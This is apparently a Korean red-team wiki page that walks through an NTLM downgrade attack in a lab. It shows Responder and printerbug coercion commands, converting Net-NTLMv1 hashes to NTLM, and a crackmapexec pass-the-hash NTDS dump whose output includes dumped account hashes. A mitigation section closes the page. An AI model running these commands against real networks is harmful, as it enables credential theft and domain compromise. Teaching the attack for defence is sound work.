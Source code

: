 # NTLM 다운그레이드

LLMNR, Nbt-NS, mDNS 포이즈닝 공격이나 강제 인증 공격으로 얻어진 Net-NTLMv1 해시들은 특정 조건이 맞을 때 NTLM 해시로 다운그레이드 공격을 할 수 있다. 다운그레이드 공격은 (복잡한) 암호학적 공격 (Cryptographic Attack) 관련된 공격이기 때문에 이 글에서는 설명하지 않는다. 관련 공격은 [이 레퍼런스](https://github.com/evilmog/ntlmv1-multi)를 참고하면 된다. 다운그레이드 해 얻어진 NTLM 해시는 Pass-the-Hash (PTH)을 통해 인증에 사용된다.

### 전제 조건

* 포이즈닝이나 강제 인증 공격으로 인증 트래픽과 해시를 얻을 것
* 해시를 얻기 전 NTLM Challenge 를 1122334455667788 로 설정할 것
* 얻은 해시가 Net-NTLMv1 일 것 (`HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel` 가 0, 1, 2 일 때)
* Responder의 `--disable-ess` 등의 플래그 사용으로 Extended Session Security가 비활성화 된 Net-NTLMv1 해시일 것

### 실습

{% tabs %}
{% tab title="리눅스" %}
간단한 PoC를 위해 프린터 버그로 강제 인증을 실행하고, Responder로 해시를 받는다.

```
# Responder 실행 
responder -I <NIC> -v --disable-ess 

# 프린터버그 실행 
git clone https://github.com/dirkjanm/krbrelayx
python3 printerbug.py '<domain>/<user>:<pass>'@<fqdn/IP> <attackerIP>
```
{% endtab %}

{% tab title="윈도우-비컨" %}
Inveigh + SpoolSample 혹은 Petitpotam 을 이용
{% endtab %}
{% endtabs %}

![앞 뒤가 똑같은 1577](../.gitbook/assets/ntlm.png)

ESS가 비활성화된 Net-NTLMv1 은 `:` 를 기준으로 같은 문자열이 나온다. 이제 이 문자열을 `NTHASH:(문자열)` 형태로 `crack.sh` 라는 홈페이지에 첨부를 하면 NTLM 문자열을 받아올 수 있다.

> 모의해킹을 진행하거나 레드팀 작전 수행 시 고객사 네트워크에서 얻은 해시를 랜덤한 홈페이지에 업로드 하면 안된다. 이 페이지의 실습은 연습용이기 때문에 crack.sh를 사용한다.
>
> 실무였다면 crack.sh가 아니라 hashcat을 이용해 Net-NTLMv1 -> NTLM 다운 그레이드를 실행한다

![](../.gitbook/assets/ntlmv1-crack-sh.png)

이런식으로 첨부하면 이메일로 다운그레이드 된 NTLM 해시가 온다. 이제 이 해시를 이용해 PTH를 해 사용자 인증을 한다.

이 실습에서는 강제 인증을 통해 도메인 컨트롤러의 머신 계정 NTLM 해시를 얻었다. 따라서 이를 이용해 NTDS 덤프 공격을 실행한다.

```
┌──(root㉿kali)-[/opt/NetNTLMtoSilverTicket]
└─# cme smb 192.168.40.150 -u "DC01$" -H '01d90becd940616e8d0e7540f5e725dc' -d choi.local --ntds 
SMB         192.168.40.150  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:choi.local) (signing:True) (SMBv1:False)
SMB         192.168.40.150  445    DC01             [+] choi.local\DC01$:01d90becd940616e8d0e7540f5e725dc 
SMB         192.168.40.150  445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         192.168.40.150  445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
SMB         192.168.40.150  445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
< ... > 
```

### 대응 방안

NTLM 다운그레이드 공격의 근본적 원인은 바로 타겟 호스트가 Net-NTLMv1 해시를 반환했다는 것이다. 윈도우 10과 윈도우 서버 2016 이후 기본적으로 Net-NTLMv2 를 사용하도록 되어있지만, 아직도 많은 네트워크에서는 하위 호환성을 위해 Net-NTLMv1 이나 심지어는 NTLM 해시를 사용하도록 되어있는 곳도 있다.

따라서 하위 호환성 테스트를 거친 뒤 Net-NTLMv1 을 사용하는 프로세스나 어플리케이션이 없다면 모든 호스트에서 Net-NTLMv2 를 사용하도록 설정한다.

```
# 레지스트리
HKLM\System\CurrentControlSet\Control\Lsa\LmCompatibilityLevel 
- 3 이상으로 설정

# 그룹 정책 
Computer Configuration\Windows Settings\Security Settings\Local Policies\Security Options\Network security: LAN Manager authentication level
- 3 이상으로 설정 
```

### 레퍼런스

{% embed url="https://github.com/dirkjanm/krbrelayx" %}

{% embed url="https://github.com/evilmog/ntlmv1-multi" %}

{% embed url="https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level" %}
